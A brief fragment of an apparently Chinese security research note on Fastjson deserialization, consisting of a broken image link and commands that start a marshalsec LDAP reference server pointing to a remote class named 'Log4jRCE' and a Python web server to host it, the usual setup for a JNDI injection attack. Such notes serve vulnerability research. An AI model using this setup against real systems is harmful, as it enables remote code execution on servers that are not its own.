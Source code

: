 Fastjson反序列化研究


## 启动JNDI服务器

```shell
 java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/\#Log4jRCE 1389

cd test
python3 -m http.server 8081


```